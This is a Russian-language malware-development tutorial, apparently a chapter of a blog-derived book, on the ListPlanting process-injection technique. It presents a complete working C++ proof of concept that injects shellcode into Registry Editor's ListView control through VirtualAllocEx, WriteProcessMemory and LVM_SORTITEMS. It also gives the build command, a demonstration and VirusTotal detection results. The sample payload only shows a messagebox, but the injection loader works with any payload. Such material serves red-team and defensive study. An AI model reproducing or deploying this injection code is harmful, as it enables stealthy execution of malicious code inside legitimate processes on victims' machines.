








\newpage
\subsection{37. трюки разработки вредоносного ПО. Listplanting. Пример на C++.}

﷽

Привет, энтузиасты кибербезопасности и белые хакеры!

{width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: Listplanting.     

Используя сообщения `LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED` и `LVM_SORTITEMS`, можно изменить поведение сортировки элементов и групп `ListView`-контрола в соответствии с индивидуальными предпочтениями. `ListView`-контролы - это окна пользовательского интерфейса, которые отображают группы элементов. Контрол `SysListView32` хранит информацию о параметрах представления списка приложения в памяти процесса.    

*ListPlanting* может быть выполнен путём копирования кода в виртуальное адресное пространство процесса, использующего `ListView`-контрол, а затем использования этого кода в качестве пользовательской функции обратного вызова для сортировки элементов списка.    

### практический пример

Рассмотрим практический пример. Трюк довольно прост:    

Сначала получаем хендл окна:

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Затем получаем идентификатор процесса и открываем его (получаем хендл процесса с помощью `OpenProcess`):   

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

На следующем шаге выделяем RWX-память через `VirtualAllocEx` и "копируем" полезную нагрузку:     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// копируем полезную нагрузку
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Наконец, запускаем полезную нагрузку:    

```cpp
// запускаем полезную нагрузку
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

Согласно [документации](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - помещает (отправляет) сообщение в очередь сообщений, связанную с потоком, который создал указанное окно, и возвращает управление, не дожидаясь обработки сообщения потоком.      

Полный исходный код моего PoC:      

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я использовал всплывающее окно с сообщением `meow-meow` в качестве полезной нагрузки:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Затем запускаем редактор реестра на машине жертвы (`Windows 10 x64` в моём случае):      

{width="80%"}    

И запускаем наш `hack.exe`:    

```powershell
.\hack.exe
```

{width="80%"}    

{width="80%"}    

Запускаем от имени администратора, так как для инъекции в редактор реестра (`regedit.exe`) требуются повышенные привилегии.     

Для проверки корректности запускаем `Process Hacker 2` от имени администратора и проверяем вкладку *память*:     

{width="80%"}    

{width="80%"}    

Как можно заметить, всё работает идеально :)    

Давайте загрузим `hack.exe` на VirusTotal:    

{width="80%"}    

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

Эта техника используется в [InvisiMole](https://attack.mitre.org/software/S0260/). *InvisiMole* - это модульное шпионское программное обеспечение, которое группа InvisiMole использует как минимум с 2013 года.      

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       
